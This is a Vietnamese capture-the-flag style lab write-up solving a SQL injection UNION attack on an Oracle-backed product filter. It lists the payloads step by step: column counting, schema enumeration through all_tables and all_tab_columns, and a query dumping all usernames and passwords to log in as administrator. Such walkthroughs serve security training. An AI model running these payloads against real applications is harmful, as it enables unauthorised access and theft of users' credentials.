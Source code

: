 # Đầu bài cho biết:
- Ứng dụng có lỗ hổng SQL injection trong bộ lọc danh mục sản phẩm.
- Sử dụng tấn công UNION.
- Ứng dụng có chức năng đăng nhập, và cơ sở dữ liệu chứa một bảng lưu trữ tên người dùng và mật khẩu.
- Hệ thống sử dụng cơ sở dữ liệu Oracle.

# Yêu cầu:
- Xác định tên của bảng chứa thông tin người dùng và tên các cột của bảng đó.
- Truy xuất nội dung của bảng để lấy tên người dùng và mật khẩu của tất cả người dùng.
- Đăng nhập với tư cách người dùng `administrator`.

# Solution

- Dùng  ORDER BY để đếm số cột

`' ORDER BY 1--`

`' ORDER BY 2--`

`' ORDER BY 3--` => Lỗi

- Vậy là có 2 cột
- Đầu bài đã cho biết hệ thống sử dụng cơ sở dữ liệu Oracle
- Thử lại bằng `UNION SELECT`

`' UNION SELECT NULL, NULL FROM dual--`

![image](https://github.com/user-attachments/assets/f042ff7f-a1f8-4fe1-bfe6-92dcd9547923)

- Thử định dạng

`' UNION SELECT 'a', 'a' FROM dual--`

- Vậy là tại cả 2 cột đều là định dạng chuỗi
- Ta xem tên tất cả các bảng bằng `all_tables` trong Oracle

`' UNION SELECT NULL, NULL FROM all_tables--`

![image](https://github.com/user-attachments/assets/5504238d-2f17-43b9-a991-0156acf6c873)

`' UNION SELECT TABLE_NAME, NULL FROM all_tables--`

![image](https://github.com/user-attachments/assets/472c81c5-6444-42a5-ab32-f641808dd54d)

- Ta tìm được bảng `USERS_BOWBLO`
- Ta tìm được tên bảng, bây giờ cần tìm tên các cột trong bảng, ta có thể dùng `FROM all_tab_columns`

![image](https://github.com/user-attachments/assets/1764f46e-7296-4e28-ac88-9f771be81541)

- Vậy thì ta có chuỗi truyền vào là: `'UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_BOWBLO'--`

![image](https://github.com/user-attachments/assets/4b633082-f441-4483-b85c-3bcbef330dae)

- Ta kiếm được 3 cột là: `EMAIL`, `PASSWORD_JAAJKL`, `USERNAME_MHOMZQ`
- Giờ, ta đã tên 2 cột username, pass và tên bảng thì ta hoàn toàn có thể in ra giá trị của các user và pass
- `' UNION SELECT USERNAME_MHOMZQ, PASSWORD_JAAJKL FROM USERS_BOWBLO--`

![image](https://github.com/user-attachments/assets/2b27c9c7-99c4-4cc1-a507-5b3bc9132b4d)

- Đăng nhập vào tài khoản admin và hoàn thành lab
